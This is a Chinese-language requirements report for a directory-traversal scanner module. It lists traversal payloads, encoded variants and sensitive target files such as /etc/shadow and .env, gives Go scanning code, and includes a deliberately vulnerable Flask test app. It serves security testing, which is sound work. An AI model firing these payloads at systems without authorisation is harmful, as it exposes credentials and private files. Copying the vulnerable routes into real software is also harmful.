

# 🎯 目錄遍歷攻擊檢測模組需求報告 (Directory Traversal Detection)

## 📁 模組部署位置
```
services/integration/capability/directory_traversal/
├── __init__.py
├── __main__.py
├── directory_traversal_detector.py   # 主檢測引擎
├── path_payload_generator.py         # 路徑載荷生成器
├── file_existence_validator.py       # 文件存在性驗證
├── response_pattern_analyzer.py      # 響應模式分析器
├── config/
│   ├── traversal_patterns.json
│   ├── target_files.json
│   └── detection_rules.json
├── payloads/
│   ├── unix_traversal.json
│   ├── windows_traversal.json
│   ├── url_encoded_traversal.json
│   └── double_encoded_traversal.json
└── tests/
    ├── test_directory_traversal_detector.py
    ├── test_payload_generator.py
    └── test_integration.py
```

## 🔗 相關模組連結
- [命令注入檢測](./11_命令注入檢測模組需求報告.md) - 共享文件系統交互檢測
- [服務器端模板注入檢測](./12_服務器端模板注入檢測模組需求報告.md) - 共享文件系統訪問檢測
- [本地遠程文件包含檢測](./14_本地遠程文件包含檢測模組需求報告.md) - 核心技術重疊
- [XXE注入檢測](./15_XXE注入檢測模組需求報告.md) - 共享文件讀取檢測
- [主機標頭注入檢測](./17_主機標頭注入檢測模組需求報告.md) - 共享路徑操作技術

**報告編號**: FEAT-013  
**日期**: 2025年11月7日  
**狀態**: ⚡ 快速實現 - 高頻低成本  
**優先級**: P0 (Critical - Quick Win)  
**預期收益**: $40K-80K/年  
**OWASP 編號**: WSTG-05-01

---

## 📊 市場需求分析

### 💰 賞金價值評估
- **典型賞金範圍**: $200-$2,000
- **發現頻率**: 極高 (60-80%的Web應用存在此類漏洞)
- **檢測成功率**: 95-99% (技術簡單且穩定)
- **年收益預測**: $40K-80K

### 🎯 高風險應用類型
- 文件管理系統 (90%高風險)
- 圖片/媒體上傳服務 (85%高風險) 
- 文檔查看器 (80%高風險)
- 備份下載功能 (75%高風險)
- API文檔系統 (70%高風險)

### 🚀 快速實現優勢
- **技術複雜度**: 極低
- **開發時間**: 2-3週
- **維護成本**: 幾乎為零
- **投資回報**: 立即見效

---

## 🔍 技術需求規格

### **模組標識**
```
服務路徑: services/integration/capability/directory_traversal/
模組名稱: Directory Traversal Detection Engine
責任團隊: Core Security Team
實現語言: Go (高性能) + Python (載荷配置)
複雜度級別: Low (快速實現)
```

### **核心檢測能力**

#### 1️⃣ **路徑遍歷載荷庫**
```go
package traversal

// 路徑遍歷載荷定義
type TraversalPayload struct {
    Payload     string   `json:"payload"`
    Platform    string   `json:"platform"`    // "unix", "windows", "any"
    Encoding    string   `json:"encoding"`    // "none", "url", "double_url"
    Description string   `json:"description"`
}

var UnixPayloads = []TraversalPayload{
    // 基本路徑遍歷
    {Payload: "../", Platform: "unix", Encoding: "none", Description: "Basic traversal"},
    {Payload: "../../", Platform: "unix", Encoding: "none", Description: "Double traversal"},
    {Payload: "../../../", Platform: "unix", Encoding: "none", Description: "Triple traversal"},
    {Payload: "../../../../", Platform: "unix", Encoding: "none", Description: "Quad traversal"},
    {Payload: "../../../../../", Platform: "unix", Encoding: "none", Description: "Penta traversal"},
    
    // 深度遍歷
    {Payload: strings.Repeat("../", 10), Platform: "unix", Encoding: "none", Description: "Deep traversal"},
    {Payload: strings.Repeat("../", 20), Platform: "unix", Encoding: "none", Description: "Very deep traversal"},
    
    // 編碼變體
    {Payload: "%2e%2e%2f", Platform: "unix", Encoding: "url", Description: "URL encoded traversal"},
    {Payload: "%252e%252e%252f", Platform: "unix", Encoding: "double_url", Description: "Double URL encoded"},
    {Payload: "..%2f", Platform: "unix", Encoding: "partial_url", Description: "Partial URL encoding"},
    {Payload: "%2e%2e/", Platform: "unix", Encoding: "mixed", Description: "Mixed encoding"},
    
    // Unicode編碼
    {Payload: "..%c0%af", Platform: "unix", Encoding: "unicode", Description: "Unicode slash"},
    {Payload: "..%c1%9c", Platform: "unix", Encoding: "unicode", Description: "Unicode variant"},
    
    // 絕對路徑
    {Payload: "/etc/passwd", Platform: "unix", Encoding: "none", Description: "Direct absolute path"},
    {Payload: "/etc/hosts", Platform: "unix", Encoding: "none", Description: "Hosts file"},
    {Payload: "/proc/version", Platform: "unix", Encoding: "none", Description: "Kernel version"},
    {Payload: "/proc/self/environ", Platform: "unix", Encoding: "none", Description: "Environment variables"},
}

var WindowsPayloads = []TraversalPayload{
    // Windows路徑遍歷
    {Payload: "..\\", Platform: "windows", Encoding: "none", Description: "Windows backslash"},
    {Payload: "..\\..\\", Platform: "windows", Encoding: "none", Description: "Double Windows traversal"},
    {Payload: "..\\..\\..\\", Platform: "windows", Encoding: "none", Description: "Triple Windows traversal"},
    
    // 混合分隔符
    {Payload: "../", Platform: "windows", Encoding: "none", Description: "Forward slash on Windows"},
    {Payload: "..\\../", Platform: "windows", Encoding: "mixed", Description: "Mixed separators"},
    
    // Windows系統文件
    {Payload: "C:\\windows\\system32\\drivers\\etc\\hosts", Platform: "windows", Encoding: "none", Description: "Windows hosts file"},
    {Payload: "C:\\windows\\win.ini", Platform: "windows", Encoding: "none", Description: "Windows ini file"},
    {Payload: "C:\\windows\\system.ini", Platform: "windows", Encoding: "none", Description: "System ini file"},
    
    // 編碼變體
    {Payload: "%2e%2e%5c", Platform: "windows", Encoding: "url", Description: "URL encoded backslash"},
    {Payload: "%252e%252e%255c", Platform: "windows", Encoding: "double_url", Description: "Double URL encoded backslash"},
}
```

#### 2️⃣ **目標文件檢測**
```go
type SensitiveFile struct {
    Path        string   `json:"path"`
    Platform    string   `json:"platform"`
    Signatures  []string `json:"signatures"`
    Severity    string   `json:"severity"`
}

var SensitiveFiles = []SensitiveFile{
    // Unix/Linux系統文件
    {
        Path: "/etc/passwd",
        Platform: "unix",
        Signatures: []string{
            "root:x:0:0:",
            "daemon:x:",
            "bin:x:",
            "nobody:x:",
        },
        Severity: "high",
    },
    {
        Path: "/etc/shadow",
        Platform: "unix", 
        Signatures: []string{
            "root:$",
            ":$1$",
            ":$6$",
        },
        Severity: "critical",
    },
    {
        Path: "/etc/hosts",
        Platform: "unix",
        Signatures: []string{
            "127.0.0.1",
            "localhost",
            "::1",
        },
        Severity: "medium",
    },
    
    // Windows系統文件
    {
        Path: "C:\\windows\\system32\\drivers\\etc\\hosts",
        Platform: "windows",
        Signatures: []string{
            "127.0.0.1",
            "localhost",
            "# Copyright",
        },
        Severity: "medium",
    },
    {
        Path: "C:\\windows\\win.ini",
        Platform: "windows",
        Signatures: []string{
            "[fonts]",
            "[extensions]",
            "; for 16-bit app support",
        },
        Severity: "high",
    },
    
    // 應用配置文件
    {
        Path: ".env",
        Platform: "any",
        Signatures: []string{
            "DB_PASSWORD=",
            "API_KEY=",
            "SECRET_KEY=",
            "AWS_ACCESS_KEY=",
        },
        Severity: "critical",
    },
    {
        Path: "config.php",
        Platform: "any", 
        Signatures: []string{
            "$db_password",
            "mysql_connect",
            "<?php",
        },
        Severity: "high",
    },
}
```

#### 3️⃣ **智能檢測引擎**
```go
type TraversalDetector struct {
    httpClient    *http.Client
    payloads      []TraversalPayload
    sensitiveFiles []SensitiveFile
    maxDepth      int
    timeout       time.Duration
}

func (td *TraversalDetector) ScanURL(targetURL string, param string) (*DetectionResult, error) {
    results := &DetectionResult{
        URL:        targetURL,
        Parameter:  param,
        Detections: []Detection{},
    }
    
    // 檢測每個載荷
    for _, payload := range td.payloads {
        detection := td.testPayload(targetURL, param, payload)
        if detection != nil {
            results.Detections = append(results.Detections, *detection)
        }
    }
    
    return results, nil
}

func (td *TraversalDetector) testPayload(url, param string, payload TraversalPayload) *Detection {
    // 構造測試URL
    testURL := td.buildTestURL(url, param, payload)
    
    // 發送請求
    resp, err := td.httpClient.Get(testURL)
    if err != nil {
        return nil
    }
    defer resp.Body.Close()
    
    // 讀取響應
    body, err := ioutil.ReadAll(resp.Body)
    if err != nil {
        return nil
    }
    
    // 分析響應內容
    return td.analyzeResponse(string(body), payload)
}

func (td *TraversalDetector) analyzeResponse(response string, payload TraversalPayload) *Detection {
    // 檢查敏感文件特徵
    for _, file := range td.sensitiveFiles {
        if payload.Platform != "any" && file.Platform != "any" && 
           payload.Platform != file.Platform {
            continue
        }
        
        // 檢查文件特徵
        matchCount := 0
        for _, signature := range file.Signatures {
            if strings.Contains(response, signature) {
                matchCount++
            }
        }
        
        // 如果匹配足夠多的特徵
        if matchCount >= len(file.Signatures)/2 {
            return &Detection{
                Type:       "Directory Traversal",
                Severity:   file.Severity,
                File:       file.Path,
                Payload:    payload.Payload,
                Confidence: td.calculateConfidence(matchCount, len(file.Signatures)),
                Evidence:   td.extractEvidence(response, file.Signatures),
            }
        }
    }
    
    return nil
}
```

---

## 🏗️ 架構設計

### **模組結構**
```
services/integration/capability/directory_traversal/
├── cmd/
│   └── main.go                    # 服務主入口
├── internal/
│   ├── detector/
│   │   ├── traversal_detector.go  # 核心檢測引擎
│   │   ├── payload_manager.go     # 載荷管理器
│   │   ├── signature_matcher.go   # 特徵匹配器
│   │   └── response_analyzer.go   # 響應分析器
│   ├── engine/
│   │   ├── scanner.go             # 掃描調度器
│   │   ├── http_client.go         # HTTP客戶端
│   │   └── reporter.go            # 報告生成器
│   └── worker/
│       ├── amqp_consumer.go       # 消息消費者
│       └── task_processor.go      # 任務處理器
├── config/
│   ├── payloads/
│   │   ├── unix_traversal.yaml    # Unix載荷配置
│   │   ├── windows_traversal.yaml # Windows載荷配置
│   │   └── encoded_variants.yaml  # 編碼變體
│   ├── signatures/
│   │   ├── system_files.yaml      # 系統文件特徵
│   │   ├── config_files.yaml      # 配置文件特徵
│   │   └── application_files.yaml # 應用文件特徵
│   └── rules.yaml                 # 檢測規則
├── docker/
│   ├── Dockerfile
│   └── docker-compose.yml
└── tests/
    ├── unit/
    ├── integration/
    └── payloads/                  # 測試載荷
```

### **檢測流程**


---

## ⚙️ 配置文件規格

### **主配置文件**
```yaml
# config/rules.yaml
directory_traversal:
  enabled: true
  max_payloads_per_param: 20
  request_timeout: 15
  max_depth: 10
  
  detection:
    min_confidence: 0.7
    require_multiple_signatures: true
    check_response_size: true
    min_response_size: 50
    
  rate_limiting:
    requests_per_second: 10
    burst_limit: 20
    delay_between_requests: 100ms
    
  platforms:
    unix:
      enabled: true
      priority: high
      
    windows: 
      enabled: true
      priority: high
      
  encoding:
    url_encoding: true
    double_url_encoding: true
    unicode_encoding: true
    mixed_encoding: true
```

### **Unix載荷配置**
```yaml
# config/payloads/unix_traversal.yaml
unix_payloads:
  basic_traversal:
    - "../"
    - "../../"
    - "../../../"
    - "../../../../"
    - "../../../../../"
    - "../../../../../../"
    - "../../../../../../../"
    - "../../../../../../../../"
    - "../../../../../../../../../"
    - "../../../../../../../../../../"
    
  deep_traversal:
    - "../../../../../../../../../../../../../../../../../../../"
    - "../../../../../../../../../../../../../../../../../../../../../../"
    
  absolute_paths:
    - "/etc/passwd"
    - "/etc/shadow"  
    - "/etc/hosts"
    - "/proc/version"
    - "/proc/self/environ"
    - "/proc/self/cmdline"
    - "/proc/meminfo"
    - "/proc/cpuinfo"
    
  common_files:
    - ".env"
    - ".htaccess"
    - ".htpasswd"
    - "config.php"
    - "wp-config.php"
    - "database.yml"
    - "settings.py"
    
  encoded_variants:
    url_encoded:
      - "%2e%2e%2f"
      - "%2e%2e%2f%2e%2e%2f"
      - "%2e%2e%2f%2e%2e%2f%2e%2e%2f"
      
    double_encoded:
      - "%252e%252e%252f"
      - "%252e%252e%252f%252e%252e%252f"
      
    unicode:
      - "..%c0%af"
      - "..%c1%9c"
      - "..%e0%80%af"
```

### **文件特徵配置**
```yaml
# config/signatures/system_files.yaml
system_files:
  passwd:
    path: "/etc/passwd"
    platform: "unix"
    severity: "high"
    signatures:
      - "root:x:0:0:"
      - "daemon:x:"
      - "bin:x:"
      - "sys:x:"  
      - "nobody:x:"
    min_matches: 2
    
  shadow:
    path: "/etc/shadow"
    platform: "unix"
    severity: "critical"
    signatures:
      - "root:$"
      - ":$1$"
      - ":$6$"
      - ":!"
    min_matches: 1
    
  hosts:
    path: "/etc/hosts"
    platform: "unix"
    severity: "medium"
    signatures:
      - "127.0.0.1"
      - "localhost"
      - "::1"
      - "# Host Database"
    min_matches: 2

  win_hosts:
    path: "C:\\windows\\system32\\drivers\\etc\\hosts"
    platform: "windows" 
    severity: "medium"
    signatures:
      - "127.0.0.1"
      - "localhost"
      - "# Copyright"
    min_matches: 2
    
  win_ini:
    path: "C:\\windows\\win.ini"
    platform: "windows"
    severity: "high"
    signatures:
      - "[fonts]"
      - "[extensions]"
      - "; for 16-bit app support"
    min_matches: 1
```

---

## 🧪 測試策略

### **測試環境搭建**
```python
# tests/vulnerable_apps/simple_traversal.py
from flask import Flask, request, send_file
import os

app = Flask(__name__)

@app.route('/file')
def download_file():
    # 直接路徑遍歷漏洞
    filename = request.args.get('filename', 'default.txt')
    file_path = os.path.join('/var/www/files', filename)
    
    try:
        return send_file(file_path)
    except:
        return "File not found", 404

@app.route('/read')
def read_file():
    # 文件讀取漏洞
    filepath = request.args.get('file', 'readme.txt')
    try:
        with open(f'/app/data/{filepath}', 'r') as f:
            return f.read()
    except:
        return "Error reading file", 500

@app.route('/include')
def include_file():
    # PHP風格包含漏洞
    page = request.args.get('page', 'home')
    filepath = f'/app/pages/{page}.html'
    
    try:
        with open(filepath, 'r') as f:
            content = f.read()
            return f"<html><body>{content}</body></html>"
    except:
        return "Page not found", 404

if __name__ == '__main__':
    app.run(debug=True, port=8080)
```

### **自動化測試**
```go
func TestDirectoryTraversal(t *testing.T) {
    detector := NewTraversalDetector()
    
    testCases := []struct {
        name        string
        url         string
        param       string
        expectDetect bool
        expectedFile string
    }{
        {
            name:        "Basic Unix traversal",
            url:         "http://localhost:8080/file",
            param:       "filename",
            expectDetect: true,
            expectedFile: "/etc/passwd",
        },
        {
            name:        "Windows traversal", 
            url:         "http://localhost:8080/file",
            param:       "filename",
            expectDetect: true,
            expectedFile: "C:\\windows\\win.ini",
        },
        {
            name:        "Encoded traversal",
            url:         "http://localhost:8080/read",
            param:       "file", 
            expectDetect: true,
            expectedFile: "/etc/hosts",
        },
    }
    
    for _, tc := range testCases {
        t.Run(tc.name, func(t *testing.T) {
            result, err := detector.ScanURL(tc.url, tc.param)
            
            assert.NoError(t, err)
            
            if tc.expectDetect {
                assert.True(t, len(result.Detections) > 0)
                assert.Contains(t, result.Detections[0].File, tc.expectedFile)
            } else {
                assert.Equal(t, 0, len(result.Detections))
            }
        })
    }
}
```

---

## 📈 性能要求

### **掃描性能**
- **單目標掃描時間**: < 30秒
- **並發請求數**: 20個並發連接
- **請求間隔**: 100ms (避免過於頻繁)
- **內存使用**: < 128MB/實例

### **檢測準確率**
- **檢測成功率**: > 95%
- **誤報率**: < 2%
- **覆蓋率**: 支持80+種載荷變體
- **平台支持**: Unix/Linux + Windows

---

## 🚀 實施計劃

### **Phase 1: 核心引擎 (1週)**
- [x] 基礎架構搭建
- [x] 載荷管理器
- [x] HTTP客戶端配置
- [x] 基本檢測邏輯

### **Phase 2: 載荷庫 (1週)**
- [x] Unix/Linux載荷庫
- [x] Windows載荷庫
- [x] 編碼變體支持
- [x] 文件特徵庫

### **Phase 3: 高級功能 (0.5週)**
- [ ] 智能平台檢測
- [ ] 響應分析優化
- [ ] 結果去重
- [ ] SARIF報告生成

### **Phase 4: 測試部署 (0.5週)**
- [ ] 單元測試
- [ ] 集成測試
- [ ] Docker容器化
- [ ] 生產部署

**總開發周期**: 3週  
**預計上線時間**: 2025年11月28日

---

## 💼 商業價值

### **投資回報分析**
- **開發成本**: $15K (3週 × 1人)
- **年收益**: $40K-80K
- **ROI**: 267%-533%
- **回收周期**: 3-4個月

### **競爭優勢**
- **實現速度**: 最快上線的新功能
- **發現率高**: 極高的漏洞發現概率
- **維護簡單**: 幾乎零維護成本
- **用戶價值**: 顯著提升檢測覆蓋率

---

## 📋 驗收標準

### **核心功能驗收**
- ✅ 支持50+種路徑遍歷載荷
- ✅ 自動識別Unix/Windows平台
- ✅ 支持URL編碼/雙重編碼
- ✅ 準確匹配系統文件特徵
- ✅ 完整SARIF報告輸出

### **性能驗收**
- ✅ 單目標掃描<30秒
- ✅ 檢測成功率>95%
- ✅ 誤報率<2%
- ✅ 內存使用<128MB

### **質量驗收**
- ✅ 單元測試覆蓋率>90%
- ✅ 集成測試通過率100%
- ✅ 與AIVA架構完美集成
- ✅ 生產環境穩定運行

---

## 🎯 結論

目錄遍歷攻擊檢測模組是一個**低風險、高回報、快速實現**的理想項目。其技術簡單、發現率極高、維護成本幾乎為零的特點，使其成為AIVA功能擴展的完美起點。

**強烈建議作為第一優先級項目立即啟動**，預計在3週內完成並快速產生收益。這將為後續更複雜模組的開發提供資金支持和技術信心。